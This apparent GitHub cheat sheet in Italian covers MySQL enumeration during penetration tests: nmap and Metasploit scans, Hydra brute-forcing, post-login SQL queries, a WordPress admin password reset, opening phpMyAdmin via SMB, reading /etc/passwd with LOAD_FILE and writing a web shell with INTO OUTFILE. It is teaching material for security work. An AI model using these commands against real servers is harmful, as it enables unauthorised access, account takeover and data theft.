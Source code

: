 # MySQL Enumeration

**MySQL** è uno dei database più utilizzati nel mondo Linux e web. È spesso usato come backend per applicazioni dinamiche (es. WordPress, Joomla, custom CMS) e può contenere informazioni estremamente sensibili, come:

- Dati degli utenti
- Hash delle password
- Informazioni di configurazione
- Log, email, contenuti interni

La porta predefinita per MySQL è la `3306/TCP`.

---

## Perché enumerare MySQL durante un penetration test?

Se MySQL è esposto alla rete e accetta connessioni da host remoti, può diventare una fonte molto ricca di informazioni. Anche senza accesso diretto, la sola enumerazione può rivelare:

- Versione del server (e relative CVE)
- Utenti esistenti
- Tabelle presenti
- Permessi configurati
- Dati interni utili a escalation o pivoting

---

## Scansione iniziale

Con Nmap puoi rilevare la presenza di MySQL e tentare una prima enumerazione:

```bash
nmap -p 3306 -sV <IP>
nmap -p 3306 --script mysql-info <IP>
```

Il secondo comando può restituire informazioni come:

- Versione esatta (es. `5.7.33`)
- OS host
- Metodo di autenticazione

Script NSE utile:
```bash
nmap -p 3306 --script mysql-enum <IP>
```

Con Metasploit:
```bash
use auxiliary/scanner/mysql/mysql_version
```

---

## Accesso con credenziali

Se hai scoperto o indovinato delle credenziali (es. da bruteforce, file di config trovati, info leakage), puoi connetterti da terminale con:

```bash
mysql -h <IP> -u <utente> -p
```

Esempio:
```bash
mysql -h 192.168.1.100 -u root -p
```

Se il login ha successo, accedi direttamente alla CLI del database.

---

## Enumerazione interna (post-login)

Una volta dentro, alcuni comandi fondamentali:

```sql
SHOW DATABASES;             -- elenca tutti i database
USE <db>;                   -- entra nel database
SHOW TABLES;                -- elenca tutte le tabelle
DESCRIBE <tabella>;         -- mostra la struttura di una tabella
SELECT * FROM <tabella>;    -- legge il contenuto
```
> piccolo tip: se hai ottenuto accesso e vuoi modificare le credenziali di un utente usa questa query: <br>
`UPDATE wp_users SET user_pass = MD5('password123') WHERE user_login = 'admin';`

Spesso tabelle con nomi come `users`, `accounts`, `admin`, `login` contengono username e password (in chiaro o hash).

---

## User enumeration e permessi

```sql
SELECT user, host FROM mysql.user;  -- lista utenti e da dove si connettono
SHOW GRANTS FOR 'admin'@'%';        -- mostra i permessi di un utente
```

Può mostrare se l’utente ha permessi come `ALL PRIVILEGES`, `FILE`, `EXECUTE`...

---

## Brute-force e tool automatici

### Hydra

```bash
hydra -L users.txt -P pass.txt mysql://<IP>
```

### Metasploit

```bash
use auxiliary/scanner/mysql/mysql_login
set RHOSTS <IP>
set USER_FILE <path_to_userlist>
set PASS_FILE <path_to_passlist>
run
```

Dopo aver trovato credenziali valide, si può usare:

```bash
use auxiliary/admin/mysql/mysql_enum
```

Per interagire direttamente con il database usando query:

```bash
use auxiliary/admin/mysql/mysql_sql
set SQL 'SHOW DATABASES;'
run
```

Per dump dello schema (tabelle e database):

```bash
use auxiliary/scanner/mysql/mysql_schemadump
```

---

é possibile che SQL utilizzi SMB per immagazzinare i dati, quindi potresti provare a bucare SMB per arrivare al database SQL.
> se phpmyadmin non é raggiungibile, ottieni accesso con smb, scarica il file `phpmyadmin.conf` e consenti l'accesso a tutti per poi disattivare `wampapache` per poi riattivarlo (`net start wampapache`)

---

## Escalation o pivot

Se hai accesso come utente con permessi elevati:

```sql
SELECT LOAD_FILE('/etc/passwd');        -- lettura di file locali
SELECT ... INTO OUTFILE '/var/www/html/shell.php'; -- scrittura di file
```

Attenzione: queste tecniche funzionano solo se l’utente ha permessi come `FILE`.

---
